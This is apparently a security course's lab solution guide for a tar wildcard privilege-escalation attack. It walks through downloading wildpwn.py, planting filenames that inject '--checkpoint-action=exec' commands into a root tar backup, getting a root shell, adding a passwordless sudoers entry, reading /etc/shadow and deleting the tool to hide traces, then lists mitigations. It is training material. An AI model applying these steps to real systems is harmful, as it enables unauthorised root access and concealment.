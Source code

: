 ## Solution Guide: Exploiting `tar`

The goal of this activity is to act out the `tar` exploitation and research how to harden systems against this exploit. 

Completing this activity required the following steps: 

- Downloading `wildpwn.py` using a non-`sudo` user account. 
- Running the script to generate `.webscript`.
- Archiving the directory with `tar` to run the exploit.
- Verifying that your user can gain `sudo` access.
- Researching mitigation techniques. 

### Solutions

1. In your VM, switch to the user `jane`, and verify that you have no `sudo` privileges:

   - Run `su jane`. Use `password` as the password.

   - Run `sudo -l` to confirm that you do not have **super user** privileges.

2. Next, we'll look for automated `tar` backup files that can be exploited. 

  - As `jane`, run `cd ~/Documents`

  - Run `ls -l` to see the archive file, `jane_docs_backup.tar`.

      ```
      -rw-r--r-- 1 root root 286720 Apr 28 18:36 jane_docs_backup.tar
      ```

3. Download the [wildpwn.py](https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py) attack tool to your `~/Documents/ExploitTar` directory:

   - `cd ~/Documents/ExploitTar`

   - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

   - Check the contents of the directory before running the script with `ls -lat`:

     ```
     total 16
     drwxr-xr-x 3 jane jane 4096 Apr 28 18:40  .
     drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
     -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
     drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f7
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f6
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f5
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f4
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f3
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f2
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f10
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f1
     ```


4. Use `wildpwn.py` to generate the malicious files by running:

    - Within the `ExploitTar` directory, run `python wildpwn.py tar .` 
    
    - The output will show:

        ```
        [!] Selected payload: tar
        [+] Done! Now wait for something like: tar cf archive.tar * on ./. Good luck!
        ```

    -  Run `ls -lat` to see our new payload files:

        ```
        total 20
        drwxr-xr-x 3 jane jane 4096 Apr 28 18:41  .
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint=1'
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint-action=exec=sh .webscript'
        -rw-rw-r-- 1 jane jane  535 Apr 28 18:41  .webscript
        drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
        -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
        drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
        ...
        ...
        ```

5. After waiting 1-2 minutes, we can re-run `ls -lat` to see that the contents of the directory have changed!

    - Run `ls -lat` to see:

      ```
      total 20
      drwxr-xr-x 4 jane jane 4096 Apr 28 18:42  .
      drwxr-xr-x 2 root root 4096 Apr 28 18:42  .cache
      drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
      -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
      drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
      ```

    - Our exploit file should exist inside of a newly created `.cache` directory, with the name, `.cachefile`.

      - Run `cd .cache` to navigate _into_ the `.cache` directory

      - Run `ls -lat` to show the hidden `.cachefile` exploit file. 
        
        - `-l`: shows a long-list format of the files. 
        - `-a`: shows entries starting with a `.`.
        - `-t`: sorts by time modified, which we want due to the nature of this exploit.


6. While still in the `.cache` subdirectory, execute the `.cachefile` within the terminal:

   - Run `./.cachefile`  

    - You'll see your user prompt change from `jane:$` to `root:#`!


7. Add `jane` to `/etc/sudoers` so that we'll be able to run any command with superuser privileges.s `root`:

   - As `root` run `visudo` and navigate to the following section of the file:

     ```bash
     # User privilege specification
     root    ALL=(ALL:ALL) ALL
     ```

   - Under that `root` permission, add the following line and save the file:  

     ```bash
     jane   ALL=(ALL) NOPASSWD:ALL
 
   - This should allow us to run `sudo` commands as `jane` without having to enter a password.


8. Log back in as `jane` and verify that you can run commands with `sudo`. 
  
    - Run `su jane`  

    - Test your `sudo` permissions with:

        - `sudo -l`, and then

        - `sudo cat /etc/shadow` 

     - If you can see the contents of this file, you have successfully carried out a `tar wildcard attack`, turning `jane` into a superuser!

     - Due to how you edited the `visudo` entry above, you shouldn't need to enter your password for this command. Password-less `sudo` permissions allow attackers to rapidly execute elevated instructions on a target machine.

    - Remove the `ExploitTar` directory entirely to cover your tracks.

        - Run `rm -r ~/Documents/ExploitTar`


9. Ways to prevent this attack in the future include:

   - Preventing users from downloading files from untrusted sources. This will involve enforcing stricter **permissions** on where users can save files.

   - Using a tool like `tripwire` to watch the file system for suspicious changes. This will alert you whenever a user downloaded files like `wildpwn.py`, or when backups create files like `.cache/.cachefile`.
    
   - Use a tool like `lynis` to scan the system for security vulnerabilities on a regular basis. This will make it more likely that you will identify malicious files before they have a chance to damage the system.


If you would like to read more about wildcard attacks, check out  the following references:

   - [Back To The Future: Unix Wildcards Gone Wild](https://www.exploit-db.com/papers/33930)
   - [wildpwn's GitHub page](https://github.com/localh0t/wildpwn)

--- 

© 2020 Trilogy Education Services, a 2U, Inc. brand.  All Rights Reserved.